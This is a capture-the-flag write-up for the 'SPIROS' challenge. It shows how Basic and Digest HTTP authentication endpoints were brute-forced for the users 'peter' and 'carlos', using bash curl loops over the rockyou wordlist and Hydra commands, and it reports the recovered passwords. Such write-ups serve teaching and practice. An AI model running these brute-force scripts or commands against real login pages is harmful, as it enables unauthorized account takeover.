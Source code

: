 # SPIROS (BASIC & Digest auth)

## Challenge: 

![challenge description-basic](img/basic%20auth.png)

![chalenge description-digest](img/digest%20auth.png)

## Solution (Basic auth):
This challenge requires us to use either a bash script or [Hydra](https://github.com/gnebbia/hydra_notes#http-basic-authentication) to brute force the password for the user named "peter".     

Below is the bash script that I created to brute force for the password.

```
#!/bin/bash

for p in $(cat /usr/share/wordlists/rockyou.txt)
do
	echo $p
	curl -u peter:$p https://www.spiros.ml/auth/basic.php
done
```

Running the command `./script.sh | grep -v "Incorrect username or password." | grep -v "You need to enter a valid username and p
assword."`, I obtained the password to be "michelle".

![Basic Bash password found](img/basic%20bash%20pw.png)

We could also brute force for the password using Hydra. Running the command `hydra -l "peter" -P /usr/share/wordlists/rockyou.txt www.spiros.ml http-head /auth/basic.php -S`, I obtained the same password.
> For HTTP sites, omit the -S switch

![pw found by hydra](img/pw%20found%20by%20hydra.png)

## Solution (Digest auth):
This challenge requires us to use either a bash script or [Hydra](https://github.com/gnebbia/hydra_notes#http-basic-authentication) to brute force the password for the user named "carlos". 

Using the following bash script, I was able to bruteforce the password.
```
#!/bin/bash

for p in $(cat /usr/share/wordlists/rockyou.txt)
do
	echo $p
	curl --digest -u carlos:$p https://www.spiros.ml/auth/digest.php 
done
```

The result of running `./digest_script.sh` gave us the password as "superman".

![pw for digest bash](img/bash%20digest%20pw.png)

We could also use Hydra to obtain the same password, by running the command `hydra -l "carlos" -P /usr/share/wordlists/rockyou.txt www.spiros.ml http-get /auth/digest.php -S`.

![hydra digest pw](img/hydra%20digest%20pw.png)